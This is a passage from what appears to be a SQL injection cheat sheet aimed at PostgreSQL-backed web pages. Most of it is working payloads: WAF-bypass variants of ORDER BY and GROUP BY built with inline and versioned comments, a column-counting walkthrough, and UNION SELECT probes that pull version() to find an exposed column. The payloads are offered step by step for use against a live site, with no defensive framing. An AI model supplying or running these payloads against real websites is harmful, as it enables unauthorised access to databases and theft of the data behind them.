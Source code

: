 ```http://domain.com/index.php?id=1 ```  
      - If none of payloads didn't work, it is problably a WAF blocking it. Try the following blocks until you won't see WAF detection or SQL syntax error.
      ```http://domain.com/index.php?id=1' order by 1 desc-- -``` 
      ```http://domain.com/index.php?id=1' group by 1-- -```  
      ```http://domain.com/index.php?id=1' group by 1-- -```  
      ```http://domain.com/index.php?id=1' /**/ORDER/**/BY/**/ 1-- -```  
      ```http://domain.com/index.php?id=-1' /*!order*/+/*!by*/ 1-- -```  
      ```http://domain.com/index.php?id=1' /*!ORDER BY*/ 1-- -```  
      ```http://domain.com/index.php?id=1'/*!50000ORDER*//**//*!50000BY*/ 1-- -```  
      ```http://domain.com/index.php?id=1' /*!12345ORDER*/+/*!BY*/ 1-- -```  
      ```http://domain.com/index.php?id=1' /*!50000ORDER BY*/ 1-- -```  
      ```http://domain.com/index.php?id=1' order/**_**/by 1-- -```  
      ```http://domain.com/index.php?id=1\ order by 1-- -```  
      ```http://domain.com/index.php?id=1' order by 1 asc-- -```  
      ```http://domain.com/index.php?id=1' group by 1 asc-- -```  
      ```http://domain.com/index.php?id=1' AND 0 order by 1-- -```
      
        - If none of the payloads didn't bypass WAF, try again the payloads by following the 2 rules below:

          Add a minus (-) before 1 (example: ```?id=-1' /**/ORDER/**/BY/**/ 1-- -```)  
          Remove the quote (') after the parameter value (example: ```?id=1 /**/ORDER/**/BY/**/ 1-- -```)

In this case, the payload ```?id=1 order by 1-- -``` worked and website loads successfuly. Now it is time to find the correct number of columns. Now let's use the payload that worked, and try increasing the number by 1, untill an error shows up:

```http://domain.com/index.php?id=1 order by 1``` no error  
```http://domain.com/index.php?id=1 order by 2``` no error  
```http://domain.com/index.php?id=1 order by 3``` no error  
```http://domain.com/index.php?id=1 order by 4``` no error  
```http://domain.com/index.php?id=1 order by 5``` error: Query failed: ERROR:...  

This means there are only 4 columns. Now we have to find which one of these 4 columns is vulnerable.

*NOTE: If none worked, try the same payloads, but remove the quote (') after number 1.*

Website must successfully load and we will see a number (in our case between 1-4)

### Dump the vulnerable column

Usually on PostgreSQL, server doesn't accept numbers on the query, so we have to use characters instead.

```http://domain.com/index.php?id=1 union select CHR(49) || CHR(50) || CHR(51) || CHR(52)```  if no error, look for what number is shown  
```http://domain.com/index.php?id=1 union select null,null,null,null```  
```http://domain.com/index.php?id=1 union select version(),null,null,null``` if no error, then the first column is vulnerable  
```http://domain.com/index.php?id=1 union select null,version(),null,null``` if no error, then the second column is vulnerable  
```http://domain.com/index.php?id=1 union select null,null,version(),null``` if no error, then the third column is vulnerable  
```http://domain.com/index.php?id=1 union select null,null,null,version()``` if no error, then the fourth column is vulnerable  

More payloads with UNION based query:
```
http://domain.com/index.php?id=1 Union Select null,null,null,null
http://domain.com/index.php?id=-1 Union Select null,null,null,null
http://domain.com/index.php?id=-1 Union Select null,null,null,null
http://domain.com/index.php?id=1+UNION+ALL+SELECT+null,null,null,null
http://domain.com/index.php?id=1 Union Select null,null,null,null
http://domain.com/index.php?id=.1 Union Select null,null,null,null
http://domain.com/index.php?id=-1 div 0 Union Select null,null,null,null
http://domain.com/index.php?id=1 Union Select null,null,null,null desc
http://domain.com/index.php?id=1 AND 0 Union Select null,null,null,null
```
```